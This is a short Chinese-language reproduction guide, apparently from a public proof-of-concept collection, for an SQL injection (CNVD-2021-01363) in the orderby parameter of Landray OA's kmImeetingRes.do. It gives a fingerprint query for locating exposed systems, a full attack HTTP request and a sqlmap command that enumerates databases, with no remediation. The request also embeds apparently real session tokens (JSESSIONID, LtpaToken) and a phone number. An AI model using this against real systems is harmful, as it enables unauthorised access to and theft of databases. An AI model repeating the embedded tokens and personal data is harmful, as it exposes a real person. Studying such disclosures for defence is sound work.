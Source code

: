 # 蓝凌OA kmImeetingRes.do 后台SQL注入漏洞 CNVD-2021-01363

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

<a-checkbox checked>蓝凌OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Landray-OA系统"</a-checkbox></br>

## 漏洞复现

存在SQL注入的 Url为,这里拿官方的演示站点演示漏洞过程

```plain
https://xxx.xxx.xxx.xxx/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true
```

其中存在SQL注入的参数为 **ordeby** ， 数据包如下

```sql
GET /km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true HTTP/1.1
Host: 
Connection: close
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UM_distinctid=1785f7392888e1-02ece8c7e9a996-5771031-1fa400-1785f73928943d; landray_danyuan=null; landray_guanjianci=null; landray_sorce=baidupinzhuanwy; landray_jihua=null; JSESSIONID=232B6933CF33B5422F9D2649739D48FE; Hm_lvt_223eecc93377a093d4111a2d7ea28f51=1616509114,1616566341,1616566350; Hm_lpvt_223eecc93377a093d4111a2d7ea28f51=1616566350; Hm_lvt_d14cb406f01f8101884d7cf81981d8bb=1616509114,1616566341,1616566350; Hm_lpvt_d14cb406f01f8101884d7cf81981d8bb=1616566507; Hm_lvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616509872,1616509969,1616509973,1616566507; Hm_lpvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616566507; Hm_lvt_22f1fea4412727d23e6a998a4b46f2ab=1616509872,1616509969,1616509973,1616566507; Hm_lpvt_22f1fea4412727d23e6a998a4b46f2ab=1616566507; fd_name=%E5%95%8A%E7%9A%84%E5%93%88; fd_id=1785f817dd0f5a4beaa482646cb9a2d8; nc_phone=15572002383; j_lang=zh-CN; LtpaToken=AAECAzYwNUFEOEZBNjA1QjgxQkFsdW9stJ5e1pcW1hgQi3cOa0iEyAhdZZs=; Hm_lvt_95cec2a2f107db33ad817ed8e4a3073b=1616510026,1616566523; Hm_lpvt_95cec2a2f107db33ad817ed8e4a3073b=1616566523; add_customer=0
```



保存为文件，使用 Sqlmap 跑一下注入

```plain
sqlmap -r sql.txt -p orderby --dbs
```

![img](../../../.vuepress/public/img/lanling-1.png)